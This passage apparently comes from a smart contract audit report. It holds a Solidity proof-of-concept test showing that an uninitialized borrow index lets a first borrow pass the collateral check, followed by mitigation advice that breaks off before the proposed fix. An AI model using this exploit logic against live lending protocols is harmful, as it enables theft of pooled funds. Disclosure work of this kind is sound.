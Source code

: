 ```solidity
        emit BorrowSuccess(msg.sender, _lToken, lendStorage.getBorrowBalance(msg.sender, _lToken).amount);
    }
}

contract PoC_Test {
    LendStorageMock public lendStorage;
    LTokenMock public lToken;
    address public token;
    CoreRouter public router;
    address public alice = address(0x1);

    constructor() {
        lendStorage = new LendStorageMock();
        lToken = new LTokenMock();
        token = address(0x2);
        router = new CoreRouter(address(lendStorage), address(lToken), token);
    }

    function test_UninitializedBorrowExploit() external {
        vm.startPrank(alice);
        // Alice borrows 800 USDC with 800 USD collateral
        router.borrow(800e6, token); // 800 USDC in 6-decimal format
        vm.stopPrank();

        uint256 recordedBorrow = lendStorage.getBorrowBalance(alice, address(lToken)).amount;
        assert(recordedBorrow == 800e6); // Borrow succeeds despite insufficient collateral check
    }
}
```

### PoC Explanation

1.  **Setup**: Alice has **800 USD** worth of collateral and attempts to borrow **800 USDC** for the first time.
2.  **Execution**: The `borrow` function sets `borrowAmount = 0` due to `currentBorrow.borrowIndex == 0`, and the check `collateral >= 0` (800 \>= 0) passes, allowing the borrow.
3.  **Outcome**: Alice successfully borrows 800 USDC, creating an undercollateralized position.

-----

## Mitigation 

To fix this vulnerability:

  * **Include New Borrow in Check**: Modify the collateral check to account for the new borrow amount (`_amount`) in addition to any existing debt.
  * **Accurate Total Borrow**: Ensure the check reflects the total borrow post-transaction.

### Proposed Fix
